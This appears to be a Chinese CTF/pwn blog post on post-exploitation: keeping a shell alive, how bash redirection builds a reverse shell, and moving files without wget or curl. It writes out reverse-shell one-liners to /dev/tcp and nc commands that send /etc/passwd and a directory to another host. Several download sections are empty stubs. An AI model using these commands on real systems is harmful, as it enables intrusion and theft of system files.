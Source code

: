```yaml
---
title: shell之后的操作
date: 2018-04-10 00:00:26
categories: pwn
tags: [shell,linux]
---
```


### 0x00 前言

一般拿到shell之后能干什么？当然是反弹shell，然后进行一波扫操作了！但是你做题的时候，是否会遇到没有反弹shell的指令或者shell本身时长有限制，连上一会就断了！

### 0x01 shell

首先还是得讲[反弹shell和正向连接shell](/2017/12/09/反弹Shell/)

前面的这篇文章有了很好的讲解

### 0x02 延时操作

若是你上面的操作都不可实现，那么不妨尝试利用下面的指令

#### timeout指令

```
timeout 3000 /bin/bash
timeout 3000 /bin/sh
```

timeout是linux上常见指令，当你想长时间连上shell不断开的话，不妨使用此命令。



#### sleep指令

```
sleep 3		    终端睡眠3秒
sleep infinity  终端睡眠无限长事件
```



### 0x03 重定向

```
"1>" 通常可以省略成 ">"
1>&2  把正确返回值 传递给 2输出通道 ，&2表示2输出通道 
2>&1 把错误返回值 传递给1输出通道, 同样&1表示1输出通道. 

反弹shell:
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
bash -i 一个交互的bash，并且连上具体ip、port，
>& /dev/tcp/HOST/PORT  表示标准输入与标准输出通过这个连接发出
0>&1  标准输入通过这个连接读入
```

[反弹shell的官方解释](http://www.00theway.org/2017/07/11/bash%20%E5%8F%8D%E5%BC%B9shell/)

```
/dev/fd/fd
If fd is a valid integer, file descriptor fd is duplicated.

/dev/stdin
File descriptor 0 is duplicated.

/dev/stdout
File descriptor 1 is duplicated.

/dev/stderr
File descriptor 2 is duplicated.

/dev/tcp/host/port
If host is a valid hostname or Internet address, and port is an integer port number or service name, Bash attempts to open the corresponding TCP socket.

/dev/udp/host/port
If host is a valid hostname or Internet address, and port is an integer port number or service name, Bash attempts to open the corresponding UDP socket.
```

"\>\&"操作符的含义：

- 在“>&word”语法中，当word不是数字或“-”字符时，“>&”表示标准输出和标准错误重定向到文件，此时与操作符“&>”功能一样。
- 在“>&word”语法中，当word是数字或“-”字符时，操作符“>&”表示复制输出文件描述符


- ">word" 当word为1的时候，


- “word<”  当word为0，代表后面的输出转为输入；当word为1或2时，其实含义与">1"或">2"一致

仅有代码”bash -i”时输入输出状态

```
标准输入、标准输出和标准错误 全部指向shell（此状态定义为状态A）
 ---       +--------+
( 0 ) ---->| shell  |
 ---       +--------+
 ---       +--------+
( 1 ) ---->| shell  |
 ---       +--------+
 ---       +--------+
( 2 ) ---->|  shell |
 ---       +--------+
```

命令“>& /dev/tcp/host/port”是对标准输出和标准错误的重定向，此时的输入输出状态

```
标准输入指向shell，标准输出和标准错误指向socket连接文件（此状态定义为状态B）
 ---       +--------+
( 0 ) ---->| shell  |
 ---       +--------+
 ---       +--------+           +------------------+
( 1 ) ---->| shell  |  ----->   |/dev/tcp/host/port|
 ---       +--------+    --->   +------------------+
      	       	        /
 ---       +--------+  /
( 2 ) ---->| shell  | / 
 ---       +--------+
```

因此执行命令“bash -i >& /dev/tcp/host/port”时将标准输出和标准错误进行了重定向,使标准输出和标准错误指向socket连接文件，标准输入指向原有shell不变。

使用命令“bash -i >& /dev/tcp/host/port”还不能反弹shell，因为此时的输入还是指向shell，此时会出现在被控端（执行反弹shell命令的终端）执行命令，在控制端（监听端口的终端）回显得现象。

命令“0>&1”是对文件描述符的拷贝，是将0[标准输入]重定向到了1[标准输出]指向的位置，此时1[标准输出]指向的是socket连接文件，重定向完成后，0[标准输入]也指向了socket连接文件，状态如下

> 在状态B时，2[标准错误]指向的也是socket连接文件，因此命令”0>&2”与“0>&1”执行完后结果是一样的,所以反弹shell命令可以写成“bash -i >& /dev/tcp/host/port 0>&2”

```
标准输入、标准输出和标准错误全部指向socket连接文件（此状态定义为状态C）
 ---       +--------+
( 0 ) ---->| shell  |\
 ---       +--------+ \
                       \
 ---       +--------+    --->   +------------------+
( 1 ) ---->| shell  |  ----->   |/dev/tcp/host/port|
 ---       +--------+    --->   +------------------+
      	       	        /
 ---       +--------+  /
( 2 ) ---->| shell  | / 
 ---       +--------+
```

命令”bash -i 5\<\>/dev/tcp/host/port 0>&5 1>&5”也可以反弹shell

说明：\<\>代表的是输入输出

```
 ---       +--------+
( 0 ) ---->| shell  |\
 ---       +--------+ \
                       \
 ---       +--------+    --->  ---    ------1----->   +------------------+
( 1 ) ---->| shell  |  -----> ( 5 )                   |/dev/tcp/host/port|
 ---       +--------+    --->  ---    <-----0------   +------------------+
      	       	        /
 ---       +--------+  /
( 2 ) ---->| shell  | / 
 ---       +--------+
```

其他参考文档

[https://www.gnu.org/software/bash/manual/html_node/Redirections.html](https://www.gnu.org/software/bash/manual/html_node/Redirections.html)

### 0x04 下载文件

一般linux上或多或少会支持一些命令wget、curl等，当这些命令存在时就可以完成文件的下载。

但是特殊情况下是这些命令都不存在。下面讲一讲其他办法：

#### nc

```
 接受: ip:192.168.228.221 1234 passwd.txt    
 发送: ip:192.168.228.222 1234 /etc/passwd
 
 方法一：
 接受方
 nc -l 1234 |tar -zxvf -
 发送方
 tar -zcvf - dir |nc 192.168.228.221 1234
 
 方法二：
 接受方
 nc -l 1234 > passwd.txt
 发送方
 nc 192.168.228.221 1234 < /etc/passwd
```

#### python

```
import urllib
```

#### perl

一般的虚拟机上都会有

```

```

#### ruby

```

```

#### java

```

```

#### Lua

```

```

#### Bash

上面重定向讲得十分透彻，所以这儿就可以快速写出对应的bash脚本了(最终屈服了，没写出来，仍然用的反弹的shell)

```
将/usr/bin/curl 转化为16进制值，切片追加传输

echo 0x31323334 |xxd -r 
1234
```

